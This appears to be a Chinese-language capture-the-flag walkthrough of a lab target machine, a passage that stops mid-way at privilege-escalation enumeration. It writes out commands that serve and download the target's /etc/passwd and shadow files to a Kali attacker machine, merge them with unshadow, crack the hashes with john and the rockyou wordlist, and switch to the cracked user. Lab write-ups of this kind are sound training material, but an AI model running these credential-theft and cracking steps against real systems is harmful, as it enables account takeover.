 1。靶机开启HTTP服务

```
python3 -m http.server
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。kali攻击机下载2个文件

```
wget http://192.168.7.213:8000/passwd  
wget http://192.168.7.213:8000/shadow
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

下载完成，使用unshadow合并两个文件

```
unshadow passwd shadow >pass
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

合并后使用john暴破密码

```
john --wordlist=/usr/share/wordlists/rockyou.txt pass --format=crypt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到scpuser的密码，SSH登录验证下

```
ssh scpuser@192.168.7.213
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

需要证书才可以登录 ，那就直接在靶机上切换scpuser用户

```
su scpuser
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

切换到scpuser用户了，找flag

```
cd /home/scpuser
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到user.txt，找一下如何提权

```
ls -al  
cat .oldpasswords
```
